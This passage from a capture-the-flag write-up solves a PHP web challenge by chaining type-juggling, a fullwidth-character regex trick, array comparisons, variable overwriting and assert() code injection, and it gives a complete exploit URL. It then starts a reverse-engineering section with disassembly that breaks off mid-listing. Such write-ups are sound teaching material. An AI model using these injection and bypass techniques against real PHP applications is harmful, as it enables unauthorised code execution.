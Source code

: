 ```php
}

$‮b = "2";$a="‮b";//;1=b

if($$a !== $k1){
    die("lel no\n");
}

// plz die now
assert_options(ASSERT_BAIL, 1);
assert("$bb == $cc");

echo "Good Job ;)";
// TODO
// echo $flag;  
```

The program set up many restrictions for us to bypass. Let's check them one by one:
- 1. `if(intval($k1) !== $cc || $k1 === $cc)`: this is easy, set `$_GET['key1'] = "1337"`
- 2. `if(strlen($k2) == $bb)` and `if(preg_match('/^\d+＄/', $k2) && !is_numeric($k2))`: the regex is tricky. note that the `＄` is actually another character(not the `$` which stands for end of a string). then, we can append some characters after `1337＄` to meet the requirement of `strlen`. `$_GET['key2']=%EF%BC%8411111111111111111111111111111111111` (url encoded here)
- 3. `if(substr($cc, $bb) === sha1($cc))` using an array, we can let both sides produce null and then return true `cc[]=1`.
- 4. `foreach ($_GET as $lel => $hack){ $$lel = $hack;}`: this allows us to overwrite arbitrary value, just specify value name and its value in URL. We will use this trick later.
- 5. the next line is a trick too. open it in vim, you can see: ` $<202e>b = "2";$a="<202e>b";//;1=b`, now `$a==2`
- 6. `if($$a !== $k1)` uses trick in **part 4** to overwrite `$k1=2`
- 7. `assert` can lead to RCE, use `bb=print($flag);//` to execute the code

Final payload:
```url
https://arcade.fluxfingers.net:1819/?msg=data:text/html,Hello%20Challenge!&key1=1337&key2=1337%EF%BC%8411111111111111111111111111111111111&cc[a]=1&k1=2&bb=print($flag);//
```

# Rev

I don't want to RE...but this is the only way to continue pwn...

## Baby Reverse

We got a simple asm, overview:
```asm
.text:0000000000400080 start           proc near
.text:0000000000400080
.text:0000000000400080 ; FUNCTION CHUNK AT .text:00000000004000D2 SIZE 0000003C BYTES
.text:0000000000400080 ; FUNCTION CHUNK AT .text:000000000040011D SIZE 0000000A BYTES
.text:0000000000400080
.text:0000000000400080                 jmp     short loc_4000D2
.text:0000000000400080 start           endp ; sp-analysis failed
.text:0000000000400080
.text:0000000000400082
.text:0000000000400082 ; =============== S U B R O U T I N E =======================================
.text:0000000000400082
.text:0000000000400082
.text:0000000000400082 sub_400082      proc near               ; CODE XREF: start:loc_4000D2↓p
.text:0000000000400082                 xor     rax, rax
.text:0000000000400085                 inc     al
.text:0000000000400087                 xor     rdi, rdi
.text:000000000040008A                 inc     rdi             ; fd
```